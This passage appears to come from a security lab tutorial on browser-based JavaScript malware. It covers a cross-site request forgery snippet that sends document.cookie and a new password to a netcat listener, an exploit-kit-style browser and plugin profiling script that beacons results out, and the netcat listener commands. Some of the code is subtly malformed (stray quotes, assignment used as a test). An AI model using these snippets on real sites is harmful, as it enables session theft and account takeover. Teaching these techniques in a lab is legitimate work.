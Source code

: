 
Hit `Ctrl + C` on the JSLab host to break the connection.

Open up port 80 again with `nc -lp 80`


### Cross-Site Request Forgery

Another scenario is JavaScript code that forces the victim browser to execute an unwanted action on a web application.  Once authenticated to the target site, a browser can be made to send an HTTP request performing a state-changing transaction, such as a password change or a purchase, which will contain the user's session token.  Since the request performing the change contains the user's session token, it will look similar to all the other legitimate requests the user has made during his authenticated session.  The target site has no way of knowing the request actually came from the attacker.

The following code will force a browser to make a state changing transaction using an HTTP request in the context of the user's authenticated session:


```javascript
fetch(`//${window.location.hostname}:4444/change_password.php`, '
   {method: 'post', body: document.cookie+"&new_password=thisWILLneverBEguessed22" } '
).then(function(r){r.text().then(function(w){console.log(w)})});
```

You should see that the JSLab console received a POST request including the two pieces of data required to make a password change---the session ID and the new password provided by the attacker. 

![](images/JavaScript%20and%20Browser-based%20Malware/image014.png)<br><br>

On JSLab, hit `Ctrl + C` and then `nc -lp 80` again.

### Profiling and Probing

This technique is used by Exploit Kit landing pages to identify the user's browser, plug-ins, and environment while searching for potential vulnerabilities.  Responses from the victim's browser help determine the application or plug-in most likely to result in exploitation.  These specific exploit modules are then loaded to exploit the user's specific configuration. 

These scripts are usually heavily obfuscated and perform many different checks but here's a simple example of how JavaScript can be used to identify the browser and plugin versions: 

```javascript
var p = navigator.platform;
if (window.chrome){var c = true;}
if (navigator.plugins.named = "Shockwave Flash"){var s = true;}
var v = (navigator.plugins['Shockwave Flash'].description).split(' ')[2];
(new Image()).src = `//${window.location.hostname}:4444/details.php?chrome=` + c + "?platform=" + \
   p + "?shockwave=" + s + "?version=" + v;
```
